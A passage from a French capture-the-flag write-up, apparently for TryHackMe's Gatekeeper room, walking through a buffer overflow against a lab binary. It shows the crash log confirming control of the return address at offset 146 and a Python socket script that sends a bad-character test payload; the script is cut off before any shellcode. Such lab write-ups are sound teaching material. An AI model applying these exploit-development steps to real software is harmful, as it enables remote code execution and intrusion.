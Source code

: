 On met le bon offset et on met un pattern sur l'adresse de retour.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wine gatekeeper.exe 
[+] Listening for connections.
```

On lance le programme.   
```

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python exploit.py 
```

On lance l'exploit.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wine gatekeeper.exe 
[+] Listening for connections.
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 152
send failed: 10009
wine: Unhandled page fault on read access to 42424242 at address 42424242 (thread 002b), starting debugger...
002b:err:seh:start_debugger Couldn't start debugger L"winedbg --auto 8 64" (2)
Read the Wine Developers Guide on how to set up winedbg or another debugger
```

On voit le programme plante, on reconnais l'adresse de retour qui est 42424242 donc la taille de l'overflow et de retour son bon.    

Maintenant il faut repérer les mauvais caractères.   

```python
#!/usr/bin/python
import sys,socket
import time
 
address = '192.168.1.89'
port = 31337


offset = 146
overflow = "A" * 146
ret = "BBBB"
payload =  ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

filler = overflow + ret + payload

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```